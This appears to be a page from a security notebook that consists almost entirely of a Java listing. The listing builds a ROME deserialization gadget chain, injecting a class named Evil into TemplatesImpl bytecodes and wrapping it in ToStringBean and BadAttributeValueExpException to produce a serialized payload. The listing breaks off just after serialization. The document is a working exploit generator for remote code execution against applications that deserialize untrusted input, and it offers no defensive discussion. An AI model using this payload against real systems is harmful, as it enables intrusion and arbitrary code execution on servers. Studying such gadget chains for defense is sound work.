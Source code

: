 ![image-20230315093149592](../.gitbook/assets/image-20230315093149592.png)

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Rome {

    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }

    public static void main(String[] args) throws Exception {
        byte[] code = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "p4d0rn");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        ToStringBean bean = new ToStringBean(Templates.class, obj);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(bean);
        
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(badAttributeValueExpException);
        oos.close();

```
